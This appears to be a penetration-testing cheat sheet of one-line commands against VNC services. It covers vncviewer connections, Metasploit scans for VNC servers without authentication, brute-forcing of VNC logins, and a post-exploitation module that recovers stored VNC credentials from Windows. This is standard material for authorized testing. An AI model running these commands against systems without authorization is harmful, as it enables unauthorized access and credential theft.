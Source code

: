 # VNC

% vnc, 5800, 5801, 5900, 5901
#plateform/linux  #target/remote  #protocol/vnc #port/5800 #port/5801 #port/5900 #port/5901


## vncviewer - connect to vnc no pass
#cat/ATTACK/CONNECT 
```
vncviewer <ip>::<port>
```

## vncviewer - connect to vnc with password
#cat/ATTACK/CONNECT 
```
vncviewer -password <password.txt> <ip>::<port>
```

## vnc msf test none auth
#cat/ATTACK/CONNECT 
```
msfconsole -x "use auxiliary/scanner/vnc/vnc_none_auth; set RHOSTS <ip>; set RPORT <port>; run"
```

## vnc - msf test login bf
#cat/ATTACK/BRUTEFORCE-SPRAY 
```
msfconsole -x "use auxiliary/scanner/vnc/vnc_login; set RHOSTS <ip>; set RPORT <port>; set USERNAME <username>; run"
```

## vnc - msf test login bf (2)
#cat/ATTACK/BRUTEFORCE-SPRAY 
```
msfconsole -x "use auxiliary/scanner/vnc/vnc_login; set RHOSTS <ip>; set RPORT <port>; set USER_FILE <users_file>; set PASS_FILE <pass_file>; run"
```

## vnc - post exploit retrieve credentials
#cat/POSTEXPLOIT/CREDS_RECOVER 
```
msfconsole -x "use post/windows/gather/credentials/vnc; set SESSION <session>; run"
```
